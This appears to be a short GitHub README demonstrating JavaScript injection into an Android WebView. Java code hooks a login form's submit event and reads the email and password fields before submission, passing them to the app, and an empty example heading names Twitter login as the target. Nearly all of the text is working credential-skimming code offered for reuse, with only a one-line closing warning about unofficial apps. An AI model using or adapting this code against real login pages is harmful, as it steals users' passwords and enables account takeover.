

Android-Javascript-Injection
============================

This demo show you how to inject javascript to webview,
and get input value before submit.


<br/>

Step 1 : create a class which called by javascript
-----------
```Java
class MyJavaScriptInterface
{
    @JavascriptInterface
    public void processHTML(String html)
    {
        //called by javascript
    }
}
```


Step 2 : register interface for javascript
-----------
```Java
webview1.getSettings().setJavaScriptEnabled(true);
webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
```


Step 3 : inject javascript to page
-----------
```Java
webview1.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
        super.onPageFinished(view, url);

        StringBuilder sb = new StringBuilder();
        sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
        sb.append("var objPWD, objAccount;var str = '';");
        sb.append("var inputs = document.getElementsByTagName('input');");
        sb.append("for (var i = 0; i < inputs.length; i++) {");
        sb.append("if (inputs[i].name.toLowerCase() === 'pass') {objPWD = inputs[i];}");
        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
        sb.append("}");
        sb.append("if (objAccount != null) {str += objAccount.value;}");
        sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
        sb.append("window.MYOBJECT.processHTML(str);");
        sb.append("return true;");
        sb.append("};");
                
        view.loadUrl("javascript:" + sb.toString());
    }

});
```

Example : twitter login injection
-----------

<br/>


<br/>
Note : it's dangerous to give important information in webview with unoffical app.
-----------
